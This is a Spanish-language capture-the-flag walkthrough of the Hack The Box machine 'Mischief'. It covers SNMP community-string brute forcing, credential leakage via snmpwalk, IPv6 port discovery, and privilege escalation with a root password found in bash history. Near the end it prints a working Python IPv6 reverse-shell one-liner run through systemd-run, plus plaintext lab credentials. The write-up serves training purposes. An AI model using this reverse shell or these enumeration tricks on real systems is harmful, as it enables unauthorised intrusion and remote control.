








# Skills

- SNMP Enumeration
- Information Leakage
- IPV6
- ICMP Data Exfiltration (Python Scapy)

# Information Gathering

Tenemos conexion con la maquina victima:

```bash
ping -c1 10.10.10.92 
PING 10.10.10.92 (10.10.10.92) 56(84) bytes of data.
64 bytes from 10.10.10.92: icmp_seq=1 ttl=63 time=137 ms

--- 10.10.10.92 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 137.229/137.229/137.229/0.000 ms
```

## Escaneo con nmap (TCP)

```bash
sudo nmap -p- --open --min-rate 5000 -n -Pn -sS 10.10.10.92 -oG nmap 

PORT     STATE SERVICE
22/tcp   open  ssh
3366/tcp open  creativepartnr
```

Encontramos 2 puertos, vamos a tratar de ver un poco mas de informacion de estos servicios:

```bash
nmap -p22,3366 -sCV 10.10.10.92 -Pn 

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2a:90:a6:b1:e6:33:85:07:15:b2:ee:a7:b9:46:77:52 (RSA)
|   256 d0:d7:00:7c:3b:b0:a6:32:b2:29:17:8d:69:a6:84:3f (ECDSA)
|_  256 3f:1c:77:93:5c:c0:6c:ea:26:f4:bb:6c:59:e9:7c:b0 (ED25519)
3366/tcp open  caldav  Radicale calendar and contacts server (Python BaseHTTPServer)
| http-auth: 
| HTTP/1.0 401 Unauthorized\x0D
|_  Basic realm=Test
|_http-server-header: SimpleHTTP/0.6 Python/2.7.15rc1
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Puerto 22 SSH, lo ignoramos porque no disponemos de credenciales.
Puerto 3366, Servicio web en python, al entrar no sale esto: 




Probe con credenciales por defecto, pero nada.

## Escaneo con nmap (UDP)

Descubrimos un puerto por UDP.

```bash
sudo nmap --open --top-ports 500 -n -Pn -sU 10.10.10.92 -oG nmapUDP 

PORT    STATE SERVICE
161/udp open  snmp
```

```bash
sudo nmap -p161 -n -Pn -sU 10.10.10.92 -sVC 

PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-processes: 
|   1: 
|   2: 
|   4: 
|   6: 
|   7: 
|   8: 
|   9: 
|   10: 
|   11: 
|   12: 
|   13: 
|   14: 
|   15: 
|   16: 
|   17: 
|   18: 
|   19: 
|   20: 
|   21: 
|_  22: 
| snmp-interfaces: 
|   lo
|     IP address: 127.0.0.1  Netmask: 255.0.0.0
|     Type: softwareLoopback  Speed: 10 Mbps
|   Intel Corporation 82545EM Gigabit Ethernet Controller (Copper)
|     IP address: 10.10.10.92  Netmask: 255.255.255.0
|     MAC address: 00:50:56:94:ab:aa (VMware)
|_    Type: ethernetCsmacd  Speed: 1 Gbps
| snmp-sysdescr: Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64
|_  System uptime: 1h22m4.42s (492442 timeticks)
| snmp-info: 
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: b6a9f84e18fef95a00000000
|   snmpEngineBoots: 20
|_  snmpEngineTime: 1h22m04s
| snmp-netstat: 
|   TCP  0.0.0.0:22           0.0.0.0:0
|   TCP  0.0.0.0:3366         0.0.0.0:0
|   TCP  127.0.0.1:3306       0.0.0.0:0
|   TCP  127.0.0.53:53        0.0.0.0:0
|   UDP  0.0.0.0:161          *:*
|   UDP  0.0.0.0:55617        *:*
|_  UDP  127.0.0.53:53        *:*
Service Info: Host: Mischie
```

# Enumeration
## Que es SNMP?

> SNMP (Simple Network Management Protocol) es un protocolo de red utilizado para gestionar y monitorizar dispositivos de red, como routers y switches, permitiendo la recolección de datos y el envío de alertas sobre el estado de la red.

Para enumerar SNMP nesecitamos una comunity string, tenemos una lista de ellas en la seclists.

La “community string” en SNMP es una forma de autenticación básica que actúa como una contraseña para acceder a la información de un dispositivo de red. Las community strings permiten a un usuario o sistema gestionar y obtener datos de un dispositivo a través de SNMP.

Con una herramienta llamada onesixtyone podemos hacer brute force y asi darnos cuanta que comunity string usa la maquina victima, aqui tenemos una lista en la seclists: ``/usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt``

```bash
onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt 10.10.10.92   
Scanning 1 hosts, 120 communities
10.10.10.92 [public] Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64
10.10.10.92 [public] Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64
```

Tenemos public, ya que encontramos la comunity string, podemos usar la herramienta snmpwalk, para enumerar el servicio SNMP

pero Primero vamos a configurar varias cositas del snmpwalk para ver mejor el OutPut, porque nos va a lanzar mucha informacion un poco incomoda de leer:
Configuracion de snmp para ver mejor el Output

Instalamos esto:

```bash
sudo apt install snmp-mibs-downloader
```

luego vamos al archivo de configuracion de snmp y comentamos esta linea:

```bash
sudo nano /etc/snmp/snmp.conf
```

```bash
#mibs :
```

## snmpwalk Enum

```bash
snmpwalk -v2c -c public 10.10.10.92
```

Esto nos va a lanzar un monton de Datos, puedes buscarlos de forma manual como yo lo hice, pero para que lo tengas a mano mas rapido, vamos a filtrar:

Primero vamos a tratar de ver el servicio de Python web que esta corriendo en TPC port 3366:

```bash
snmpwalk -v2c -c public 10.10.10.92 hrSWRunParameters | grep "SimpleHTTPAuthServer"
HOST-RESOURCES-MIB::hrSWRunParameters.794 = STRING: "-m SimpleHTTPAuthServer 3366 loki:godofmischiefisloki --dir /home/loki/hosted/"
```

Encontramos credenciales que nos podrian servir mas adelante.

Tambien busquemos la IPv6 de la maquina victima:

```bash
snmpwalk -v2c -c public 10.10.10.92 ipAddressType 

IP-MIB::ipAddressType.ipv4."10.10.10.92" = INTEGER: unicast(1)
IP-MIB::ipAddressType.ipv4."10.10.10.255" = INTEGER: broadcast(3)
IP-MIB::ipAddressType.ipv4."127.0.0.1" = INTEGER: unicast(1)
IP-MIB::ipAddressType.ipv6."00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:01" = INTEGER: unicast(1)
IP-MIB::ipAddressType.ipv6."de:ad:be:ef:00:00:00:00:02:50:56:ff:fe:94:ab:aa" = INTEGER: unicast(1)
IP-MIB::ipAddressType.ipv6."fe:80:00:00:00:00:00:00:02:50:56:ff:fe:94:ab:aa" = INTEGER: unicast(1)
```

## Simplifica tu IPv6



Esta IPv6 la podemos simplificar, quitando los 0 consecutivos y poniendo ::.

Al hacer ping a la maquina nos responde de una:

```bash
ping6 -c1 dead:beef::250:56ff:fe94:abaa

PING dead:beef::250:56ff:fe94:abaa (dead:beef::250:56ff:fe94:abaa) 56 data bytes
64 bytes from dead:beef::250:56ff:fe94:abaa: icmp_seq=1 ttl=63 time=152 ms

--- dead:beef::250:56ff:fe94:abaa ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 152.079/152.079/152.079/0.000 ms
```

## Escaneo de nmap por IPv6

Vamos a hacer un Escaneo de Nmap por IPv6, para ver si podemos encontrar algun puerto que por IPv4 no podriamos ver.

```bash
sudo nmap -p- --open --min-rate 5000 -n -Pn -sS -6  dead:beef::250:56ff:fe94:abaa 

[sudo] password for mil4ne: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-09 16:35 EDT
Nmap scan report for dead:beef::250:56ff:fe94:abaa
Host is up (0.14s latency).
Not shown: 65278 closed tcp ports (reset), 255 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```bash
nmap -p22,80 -sVC -6 dead:beef::250:56ff:fe94:abaa 

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-09 16:46 EDT
Nmap scan report for dead:beef::250:56ff:fe94:abaa
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2a:90:a6:b1:e6:33:85:07:15:b2:ee:a7:b9:46:77:52 (RSA)
|   256 d0:d7:00:7c:3b:b0:a6:32:b2:29:17:8d:69:a6:84:3f (ECDSA)
|_  256 3f:1c:77:93:5c:c0:6c:ea:26:f4:bb:6c:59:e9:7c:b0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 400 Bad Request
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| address-info: 
|   IPv6 EUI-64: 
|     MAC address: 
|       address: 00:50:56:94:ab:aa
|_      manuf: VMware
```

## Port 80 IPv6 - Login page



Aqui tenemos otro login, probamos las credenciales que habiamos encontra en el snmpwalk, pero no funcionan, asi que vamos a probarlas con el login que nos salia en el puerto 3366 por IPv4.

## Ingresamos a la web del puerto 3366 (IPv4)

Logramos acceder al primer login, en la web podemos ver estas crendeciales y una imagen Rara.

``loki:godofmischiefisloki``


Con estas credenciales nuevas lo que podemos tratar es ver si son validas en el otro login del port 80 IPv6



Probando varias combinaciones pude entrar al panel, pero no con usuario loki, si no con el usuario Administrator.

``Administrator:trickeryanddeceit``

Al acceder, nos da una pagina para ejecutar comandos en la maquina victima, y diras, o que bien me mando una revshell entonces, pues fijate que no.

# Explotation

## Panel de Comandos

pero si podemos ver esto:



Basicamente te dice que hay credenciales en el home de loki.



Aqui tienes las credenciales, ahora nos conectamos por ssh con el usuario loki.

```bash
ssh loki@10.10.10.92                        
loki@10.10.10.92's password: lokiisthebestnorsegod

loki@Mischief:~$ 
```

# Privilege Escalation

Despues de leer la user.txt, vamos directamente sin perder tiempo al .bash_history;

```bash
loki@Mischief:~$ cat .bash_history
python -m SimpleHTTPAuthServer loki:lokipasswordmischieftrickery
exit
free -mt
ifconfig
cd /etc/
sudo su
su
exit
su root
ls -la
sudo -l
ifconfig
id
cat .bash_history 
nano .bash_history 
exit
```

La password de root esta aqui.

Pero si Intentas acceder como root, no te va a dejar.



por que el usuario loki no puede ejecutar su ni sudo, mira:

```bash
loki@Mischief:~$ getfacl /usr/bin/sudo
getfacl: Removing leading '/' from absolute path names
# file: usr/bin/sudo
# owner: root
# group: root
# flags: s--
user::rwx
user:loki:r--
group::r-x
mask::r-x
other::r-x
```

```bash
loki@Mischief:~$ getfacl /bin/su
getfacl: Removing leading '/' from absolute path names
# file: bin/su
# owner: root
# group: root
# flags: s--
user::rwx
user:loki:r--
group::r-x
mask::r-x

Entoces lo que haremos sera, enviarnos una revshell con python utilizando systemd-run, ya que tenemos la password de root.

Si nos enviamos una revshell por IPv4 no nos funciona, asi que ya sabes, hay que hacerla por IPv6:

- Primero Busca tu Ipv6
   

    Ponte escucha con ncat Por Ipv6, ojo con nc no me funciono.

```bash
ncat -6 -l -p 9002
```

- Envia la revshell, modificando la ip:

```bash
systemd-run python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::1009",9002));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/sh");s.close()'
```
Ya deberiamos tener una shell como root.
Encuentra la root.txt

```bash
root@Mischief:~# find / -type f -name root.txt 2>/dev/null
/usr/lib/gcc/x86_64-linux-gnu/7/root.txt
/root/root.txt
```